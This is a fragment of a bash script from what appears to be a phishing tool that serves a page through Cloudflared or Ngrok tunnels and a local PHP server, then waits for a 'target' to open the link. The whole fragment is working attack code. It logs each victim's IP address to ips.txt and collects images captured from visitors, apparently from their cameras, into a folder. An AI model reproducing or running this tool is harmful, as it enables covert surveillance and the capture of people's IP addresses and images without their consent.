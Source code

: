 cflink=$(grep -o 'https://[-0-9a-z]*\.trycloudflare.com' "$HOME/.cffolder/log.txt")
if (echo "$cflink" | grep -q "cloudflare"); then
cfcheck=true
else
cfcheck=false
fi
while true; do
if ( $cfcheck && $ngrokcheck ); then
    if [ $TN == "Cloudflared" ]; then
        echo -e "${success}Cloudflared choosen!\n"
        replacer "$cflink"
    else
        echo -e "${success}Ngrok choosen!\n"
        replacer "$ngroklink"
    fi
    break
fi
if ( $cfcheck &&  ! $ngrokcheck ); then
    echo -e "${success}Cloudflared started succesfully!\n"
    replacer "$cflink"
    break
fi
if ( ! $cfcheck && $ngrokcheck ); then
    echo -e "${success}Ngrok started succesfully!\n"
    replacer "$ngroklink"
    break
fi
if ! ( $cfcheck && $ngrokcheck ); then
    echo -e "${error}Tunneling failed!\n"
    killer; exit 1
fi
done
sleep 1
status=$(curl -s --head -w %{http_code} 127.0.0.1:7777 -o /dev/null)
if echo "$status" | grep -q "404"; then
    echo -e "${error}PHP couldn't start!\n\007"
    killer; exit 1
else
    echo -e "${success}PHP started succesfully!\n"
fi
sleep 1
rm -rf ip.txt
echo -e "${info}Waiting for target. ${cyan}Press ${red}Ctrl + C ${cyan}to exit...\n"
while true; do
    if [[ -e "ip.txt" ]]; then
        echo -e "\007${success}Target opened the link!\n"
        while IFS= read -r line; do
            echo -e "${green}[${blue}*${green}]${yellow} $line"
        done < ip.txt
        echo ""
        cat ip.txt >> $cwd/ips.txt
        rm -rf ip.txt
    fi
    sleep 0.5
    if [[ -e "log.txt" ]]; then
        echo -e "\007${success}Image downloaded! Check directory!\n"
        file=`ls | grep png`
        mv -f $file $FOL
        rm -rf log.txt
    fi
    sleep 0.5
done 
